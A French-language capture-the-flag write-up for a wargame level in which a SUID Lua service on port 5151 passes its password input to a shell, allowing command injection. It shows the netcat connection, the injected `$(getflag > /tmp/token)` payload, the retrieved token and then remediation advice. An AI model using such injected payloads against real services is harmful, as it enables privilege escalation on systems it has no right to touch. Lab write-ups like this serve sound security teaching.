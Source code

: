 **Description**
Ce niveau exploite un script Lua (level11.lua) configuré avec le bit SUID appartenant à l’utilisateur flag11. Le script écoute en local sur le port 5151 et demande un « mot de passe ». En interne, il passe la saisie à la commande `echo … | sha1sum` pour comparer la valeur SHA-1. Comme l’entrée n’est nullement filtrée, il est possible d’injecter des commandes shell via la substitution de commande `$()`. Grâce au bit SUID, ces commandes s’exécutent avec les privilèges de flag11, ce qui permet de récupérer le flag de niveau 11.

---

## Comment Exploiter la Faille

1. **Lancer une connexion vers le service**
   Depuis une machine où le script tourne (en tant que flag11), exécutez :

   ```
   nc 127.0.0.1 5151
   ```

   On obtient alors :

   ```
   Password: 
   ```

2. **Injecter la commande pour récupérer le flag**
   En réponse à l’invite `Password:`, envoyez la substitution de commande suivante :

   ```
   $(getflag > /tmp/token)
   ```

   * Lorsque le script Lua fait `echo $(getflag > /tmp/token) | sha1sum`, la commande `getflag` est exécutée avec les droits de flag11 et le résultat (le flag) est redirigé vers `/tmp/token`.
   * Comme la chaîne interpolée n’est pas la bonne valeur SHA-1, le script renvoie alors :

     ```
     Erf nope..
     ```

     mais le flag a déjà été écrit dans `/tmp/token`.

3. **Lire le flag depuis le fichier temporaire**
   Toujours dans le même shell (ou une autre session), affichez le contenu de `/tmp/token` :

   ```
   cat /tmp/token
   ```

   Vous obtenez quelque chose comme :

   ```
   Check flag. Here is your token : fa6v5ateaw21peobuub8ipe6s
   ```

4. **Passer au niveau suivant**
   Utilisez ce token comme mot de passe pour l’utilisateur level12 :

   ```
   su level12
   Mot de passe : fa6v5ateaw21peobuub8ipe6s
   ```

   Vous êtes maintenant connecté en tant que level12.

---

## Comment Résoudre la Faille

1. **Ne pas exécuter de commandes shell non filtrées sur une entrée utilisateur**

   * Dans le script Lua, remplacer l’usage de `io.popen("echo "..pass.." | sha1sum", "r")` par une fonction de hachage native (par exemple l’API Lua pour SHA-1) qui ne fait pas appel à un shell.
   * Ou, à défaut, au minimum échapper rigoureusement toute séquence `$()` ou backticks pour empêcher l’injection.

2. **Retirer le bit SUID**

   * Si le processus n’a pas besoin d’écrire sous un autre utilisateur, retirer le bit SUID sur le binaire Lua ou sur le script level11.lua.
   * Ainsi, un attaquant ne pourra plus exécuter `getflag` avec les droits de flag11.

3. **Exiger un mot de passe solide**

   * Ne pas se contenter de comparer une seule valeur SHA-1 codée en dur dans le script. Au minimum, lire un fichier de mot de passe haché, appliquer un salts et forcer l’utilisateur à fournir la bonne empreinte sans proposer d’exécution shell.

---

## Conclusion

Cette vulnérabilité illustre le danger d’utiliser `io.popen` (ou tout appel shell) sur une entrée brutale de l’utilisateur, surtout dans un contexte SUID : une simple substitution de commande suffit à exécuter arbitrairement `getflag`. Pour corriger, il faut impérativement supprimer toute exécution shell non filtrée, ou bien retirer le bit SUID pour éviter que le binaire s’exécute avec des privilèges élevés.
